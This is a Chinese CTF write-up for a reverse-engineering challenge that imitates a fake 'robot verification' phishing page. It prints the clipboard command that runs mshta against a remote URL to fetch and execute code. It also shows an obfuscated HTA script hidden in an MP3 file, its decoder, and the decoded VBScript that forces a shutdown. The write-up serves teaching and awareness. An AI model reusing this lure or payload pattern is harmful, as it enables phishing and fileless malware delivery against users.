





### 我是钓鱼佬

#### 题目描述

钓鱼爱好者就是喜欢这样做，撒一把鱼饵打窝，然后让鱼儿自己上钩。

注意：本题具有一定危险性，若在本机运行题目内容后果自负（危害性函数已被去除，注意所有文件均已保存、可随时关闭即可运行）

#### 解题思路

先提一嘴，本题的危险性就是会导致你的计算机执行shutdown -，你只需要打开终端执行`shutdown -a`即可阻止本次关机。

我们可以看到这道题目没有附件，这在rev中其实非常罕见。我们打开环境，发现进入了一个机器人验证的网页（解题过程中各种卡卡的都可能是环境的问题，主要我前端是让ai写的，比较的随意，写wp才发现ai还拼错单词了😅）。

点击press to vertify，提示你跟随指令：

如果你按照他的要求直接做了，完成第二步就会发现你的框中出现了乱七八糟的内容：

此时如果你运行，一段时间后系统便会给出关机提示（正常来说应该很快的，这台服务器不太好才会很慢）。

我们观察复制进去的完整内容：
`powershell . mshta http://host:port/Successful_Vertification#This is Vertification`

其实是打开了powershell，在其中执行了后面那段指令。

此时，我们应该已经发现了，该网址就是你的容器的网址，我们可以尝试访问该网址，发现下载下来了一个音频文件，可能没写好，因为这次我的火绒居然报毒了（<del>明明测试的时候360没报毒的</del>）

反正把这个文件正常下回来就行，我保证没除了关机之外的问题（或者你在虚拟机里面操作，更安全）。

直接循行该MP3文件，的确是个音频，内容如下：

<details>     <summary>点击查看内容</summary>      </details>

为什么这个音频会出现问题呢？我们看下执行它的文件是什么来头（以下摘自百度百科）：

直接都给你列出来危害方式了，常被攻击者用于无文件攻击。

而且它是作为HTA文件解析器而存在的，再查看一下HTA文件，其实它就是可执行的html——那么我们就清楚了，既然是html，那一定有如`<>`一样的形式。

我们通过010打开该文件，都不用什么查询技巧，直接翻看就可以轻易发现，音频最后的部分存在可读字符，而且有标记`</script>`，将这段内容copy出来，进行分析:

```html
<script>
    document.write(
    function(a)
    {
        a=unescape(a);
        var c=String.fromCharCode(a.charCodeAt(0)-a.length);
        for(var i=1;i<a.length;i++)
        {
            c+=String.fromCharCode(a.charCodeAt(i)-c.charCodeAt(i-1))
        }
        return c
    }

("%u016D%AF%D6%D5%DB%D9%E4%94%8C%CD%CF%D5%DC%D6%C8%CC%A2_x%98%95%B6%D5%DB%D9%E4%96%60H*@@@GG%u523B%uB115%u5F4D%BB%CD%D1%D8%u5C65%uE85A%u8C6B*@@@s%B8%D9%94%97%EA%93%5D%5Dc%B5%D7%C6%D5%D9%B4%B1%CC%CF%C8%D7%9CJy%AA%B6%D5%DB%D9%E4%A2%81%BB%CD%D1%D8%8EK3*@@@**@@@GG%u6287%uEAB3%uDCC9%uA361%u4DEC%u4D15%uB44B%uDF78%uF3D1%uCE7A%u52EC%uFF13*@@@%97%EA%A1%80%C7%E3%8EB%85%D0%D1%84O%92%83%85%C8%CB%D7%8F%92%A2%60%A4%A6bbg%B0%CB%B8%D1%DC%DB%D1%D7%D5%C6%D3%E6%A3%94%CE%DE%D2%C9%DF%E8%E7%D3%CB%D5%D4%D0%C4%D3%DC%99e%B1%9D%5E%7C%5Ec%7D%96%D0%D9%D2%DD%CC%CB%E4%E9%E4%E5%E9%A2%A2%EC%EC%96NLP%5CLt%C6%E7%DAo*@@@%97%EA%A1%80%C7%E3%8EB%85%D0%D1%84O%92%83%93%DB%DD%E9%D8%D3%E6%E5%8EM%A0%93M%A1%94Vf%60RNLP%5CLt%C6%E7%DAo*@@@**@@@GG%u7AEB%uCE3E%uA4E6%uE760%u965A%E0%DB%DC%D5%u7AF8%uCE7A%u53ED*@@@%97%E0%D7%D2%D3%E6%A5%91%CF%DB%E2%D8oFk%A2%D6%D5%DB%D9%E4%B2")
);
</script>
```

发现是一个匿名函数，动态加载字符串。编写解密脚本如下，并运行：

```js
function decode(a) {
    a = unescape(a);
    var c = String.fromCharCode(a.charCodeAt(0) - a.length);
    for (var i = 1; i < a.length; i++) {
        c += String.fromCharCode(a.charCodeAt(i) - c.charCodeAt(i - 1));
    }
    return c;
}

var encoded = "%u016D%AF%D6%D5%DB%D9%E4%94%8C%CD%CF%D5%DC%D6%C8%CC%A2_x%98%95%B6%D5%DB%D9%E4%96%60H*@@@GG%u523B%uB115%u5F4D%BB%CD%D1%D8%u5C65%uE85A%u8C6B*@@@s%B8%D9%94%97%EA%93%5D%5Dc%B5%D7%C6%D5%D9%B4%B1%CC%CF%C8%D7%9CJy%AA%B6%D5%DB%D9%E4%A2%81%BB%CD%D1%D8%8EK3*@@@**@@@GG%u6287%uEAB3%uDCC9%uA361%u4DEC%u4D15%uB44B%uDF78%uF3D1%uCE7A%u52EC%uFF13*@@@%97%EA%A1%80%C7%E3%8EB%85%D0%D1%84O%92%83%85%C8%CB%D7%8F%92%A2%60%A4%A6bbg%B0%CB%B8%D1%DC%DB%D1%D7%D5%C6%D3%E6%A3%94%CE%DE%D2%C9%DF%E8%E7%D3%CB%D5%D4%D0%C4%D3%DC%99e%B1%9D%5E%7C%5Ec%7D%96%D0%D9%D2%DD%CC%CB%E4%E9%E4%E5%E9%A2%A2%EC%EC%96NLP%5CLt%C6%E7%DAo*@@@%97%EA%A1%80%C7%E3%8EB%85%D0%D1%84O%92%83%93%DB%DD%E9%D8%D3%E6%E5%8EM%A0%93M%A1%94Vf%60RNLP%5CLt%C6%E7%DAo*@@@**@@@GG%u7AEB%uCE3E%uA4E6%uE760%u965A%E0%DB%DC%D5%u7AF8%uCE7A%u53ED*@@@%97%E0%D7%D2%D3%E6%A5%91%CF%DB%E2%D8oFk%A2%D6%D5%DB%D9%E4%B2";

console.log(decode(encoded));
```

生成内容如下（我甚至连注释都没删除，多么良心啊）：

```js
`\x3Cscript language="VBScript">\n    ' 创建Shell对象\n    Set ws = CreateObject("WScript.Shell")\n    \n    ' 执行命令（不显示窗口）\n    ws.Run "cmd /c echo r00t2025{Phishing_tr1cks_just_like_th14} >> C:\\temp\\output.txt", 0, True\n    ws.Run "cmd /c shutdown -s -t 600", 0, True\n    \n    ' 立即关闭mshta窗口\n    window.close\n\x3C/script>`
```

其中变包含着flag。

#### 出题思路

其实这个材料简化自真实案例，之前的确存在这种机器人验证欺骗的方式进行病毒安装，而且即使是现在的防护软件其实也没办法检测出来问题，因为可以算是你自己打开终端，自己运行的恶意程序。

> ##### 以下和题目无关
>
> 当然，大家不要因为这道题比较简单就小觑了真实案例，真正的情况下，病毒传播可不会使用这么简单的加密，而且只套一层保护。都是经过了一层又一层的保护，可能先是`mshta`，然后是`powershell`，再转`wscript.exe`，接着`rundll32.exe`，最后转回`powershell`的保护。
>
> 作为懂得一定安全相关知识的人，我们其实在心态上更容易中招，你说文件全部在虚拟机里执行很安全？虚拟机也可以被提权然后进入宿主机环境的，所以，在下载不明文件时还是应当警惕。